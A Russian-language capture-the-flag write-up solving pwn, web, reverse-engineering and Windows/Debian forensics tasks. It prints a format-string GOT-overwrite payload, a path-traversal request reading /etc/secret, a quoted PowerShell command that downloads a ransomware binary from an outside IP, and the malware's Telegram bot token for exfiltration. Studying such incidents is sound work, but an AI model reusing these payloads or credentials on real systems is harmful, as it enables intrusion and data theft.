 ## Task-based

#### pwn 1
для получения флага нужно вызвать функцию `win`. мы можем вставлять в format string в `prinf` любую строку; используя эту уязвимость, перезаписываем адрес функции `exit`(которая вызывается в конце программы) на адрес функции `win` в GOT(Global Offset Table). таким образом, при вызове `exit` будет на самом деле вызываться `win`. используя возможности `pwntools`, эксплойт создаётся в одну строчку:
```python
payload = fmtstr_payload(6, {elf.got["exit"]: elf.symbols["win"]})
```

полный эксплойт: [expoit.py](pwn1/exploit.py)

флаг: `nto{easy_formt_string}`


#### pwn 2
данная программа полностью совпадает с заданием на [очень популярном учебнике по pwnу](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop). эксплойт полностью совпадает с предложенным автором учебника, только нужно заменить адрес строки `/bin/bash`(его можно найти используя `gdb`):
```python
BINSH = elf.address + 0x1430
```

для поиска `/bin/bash` в `gdb`:
```python
info proc mappings # берем адресс первого исполняемого блока
find <addr>, +0x1000, "/bin/bash"
```

полный эксплойт: [exploit.py](pwn2/exploit.py)

флаг: `nto{sropsropsroplazy}`


#### web 1
простейшая lfi. в коде страницы видим ссылку вида `http://192.168.12.10:5001/download?file_type=file1.txt`. как раз в `file1.txt` написано, что флаг в `/etc/secret`. делаем запрос `http://192.168.12.10:5001/download?file_type=../../../../../../etc/secret`

флаг: `nto{P6t9_T77v6RsA1}`


#### reverse 1
в программе есть массив с зашифрованным флагом. программа сравнивает зашифрованные пары символов флага с числами из массива. таким образом, можно зашифровать все возможные пары букв и вытащить флаг. мы это сделали написав скрипт на python, который использует скрипт на bash, который генерирует скрипт для gdb на каждую пару символов. в gdb просто ставится breakpoint на нужном месте и из регистра считаывается шифртекст. ~~да, интерпретатор, который использует интерпретатор, который использует интерпретатор, чтобы вытаскивать значения регистров.~~ далее, сохраняем все пары зашифрованные символы <-> сама биграмма и декодируем флаг.

генератор скрипта для gdb: [script.sh](reverse1/script.sh)
перебор и декодирование флага: [reverse1](reverse1/solve.py)

флаг: `nto{4n0TH3R_bRu73F0RC3_7ASk}`

## windows forensics
В логах `event viewer` можно найти примерно момент времени, в который была развернута малварь, с помощью данной команды `powershell`:
```powershell
powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);
(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); 
```
Видно, что команда скачивает файл `prikol.exe` в `c:\Users\\<наш пользователь>\AppData\Roaming\Rjomba.exe`
Примерно в то же время можно заметить какие-то события от `Outlook`, так что мы посмотрели его файлы. Посмотрев в типичное место для файлов `Outlook`, мы нашли файл `company_worker123@rambler.ru.ost` - незашифрованный файл с письмами пользователя. Проанализировав его, мы нашли письмо с вложением - `classic.rar`.  Впоследствии, в файле был найден вредоносный код, который эксплуатировал уязвимость, чтобы исполниться.

Был сделан дамп памяти - с помощью отладочного функционала `VirtualBox` сдампили физическиую память всей системы, далее с помощью `volatility3` достали оттуда дамп памяти процесса `Rjomba.exe`.  Команды для `volatility`:
```bash
python vol.py -f ~/Downloads/dump.dmp windows.pslist # узнать pid вируса
python vol.py -o . -f ~/Downloads/dump.dmp windows.memmap \
        --pid 4168 --dump # получить дамп памяти процесса вируса из дампа всей памяти
```

---

### 1. Каким образом вредоносное ПО попало на компьютер пользователя?
Пользователь открыл фишинговое письмо и распаковал архив, при распаковке которого запустилась команда выше
### 2. С какого сервера была скачана полезная нагрузка?
http://95.169.192.220:8080 - понятно из команды:
```powershell
powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);
(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); 
```
### 3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО?
Вот, что было в архиве:
```
> unpacked
├── > 'TOP_SECRET.pdf '
└── # 'TOP_SECRET.pdf .cmd'
```
Этот архив эксплуатирует уязвимость `CVE-2023-38831` в `WinRar`, чтобы исполнить `.cmd` файл, в котором и была команда, найденная в логах.
### 4. Какие методы противодействия отладке использует программа?
Проанализировав используемые функции API windows и дкомпилированный код файла `Rjomba.exe` можно сделать следующие выводы:
-   Использует `IsDebuggerPresent` и `CheckRemoteDebuggerPresent` - встроенные функции библиотеки windows, которыя проверяют, отлаживается ли программа. Если программа отлаживается, файлы не шифруются, а процессы отладчиков убиваются с помощью `TerminateProcess`
-   Обфусцированные строчки
-   Проверяет, стоят ли в нем брейкпоинты
-   убивает все процессы, которые считает дебаггером. (`Taskmgr.exe`, `procexp.exe`, `procexp64a.exe`, `AnVir.exe`, `anvir64.exe`, `dumpcap.exe`, `ollydbg.exe`, `tcpview.exe`, `autoruns.exe`, `autorunsc.exe`, `filemon.exe`, `procmon.exe`, `regmon.exe`, `Wireshark.exe` и другие, нашли в дампе памяти)
### 5. Какой алгоритм шифрования используется при шифровании данных?
Посмотрев названия функций `prikol.exe` в `ghidra`, можно заметить названия вроде `CBC_Encryption`, что означает что алгоритм - `AES` в режиме `CBC`. Длина ключа - 256 бит, мы смогли понять это, так как шифровали тексты разных размеров и смотрели на длину итогового шифртекста.
### 6. Какой ключ шифрования используется при шифровании данных?
Далее с помощью `strings` и `grep -E` нашли все строки, длина которых совпадала с предполагаемой длиной ключа. Осмысленными из них были лишь две:
 
 - `amogusamogusamogusamogusamogusam`
 - `sugomasugomasugomasugomasugomasu`
Далее мы подошли к жюри и успешно сдали эти строчки.
### 7. Куда злоумышленник отсылает собранные данные? Каким образом  аутентифицируется на endpoint?
Поискав в дампе памяти системы можно было найти url - `https://api.telegram.org/bot7029575943:AAFNYmmW_QqqMcaHZ-DFRn3M05DptExeAGE`  - значит, что злоумешленник отправлял данные боту в `telegram`, а аутентифицировался с помощью ключа `7029575943:AAFNYmmW_QqqMcaHZ-DFRn3M05DptExeAGE`
### 8. Каково содержимое расшифрованного файла pass.txt на рабочем столе?
Так как `AES` использовался в режиме `CBC`, то чтобы расшифровать его, нам нужно было получить секретный initial vector. Поискав в дампе памяти и попробовав оттуда разные строки, было обнаружено что строка `abababababababab` выдавала пароль, который принимали жюри.

---

## Debian forensics

#### Вопрос 1
на сервере установлен GitLab Community Edition версии 15.2.2. можно узнать из `/opt/gitlab/LICENSE`

#### Вопрос 2
злоумышленник использовал RCE уязвимость в GitLab. это критическая [CVE-2022-2884](https://nvd.nist.gov/vuln/detail/CVE-2022-2884)

#### Вопрос 3
1. у пользователя `git`(из под которого запущен GitLab) есть право запускать `git` через `sudo` от `root` без пароля
2. на программе `/usr/bin/git` стоит SETUID бит. то есть, при запуске любым пользователем, `git` будет исполняться под `root`
3. разрешен вход по паролю под пользователем `root` по ssh. в `/etc/ssh/sshd_config`: `PermitRootLogin yes`

#### Вопрос 4
злоумышленник использовал первую мисконфигурацию из вопроса 3

#### Вопрос 5
злоумышленник добавил в доверенные для пользователя `root` ssh-ключи свой ключ:
```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIKXFjUp2LlKAsLvM1PZE7CYEfztiZrOf8PHx9ja1mu2 amongus@debian
```

#### Вопрос 6
злоумышленник использовал linpeas. В папке `/tmp` был файл `linpeas.txt`. из `/root/.bash_history` мы узнаем что этот файл был удален

#### Вопрос 7
злоумышленник использовал руткит [Jynx2](https://github.com/chokepoint/Jynx2)
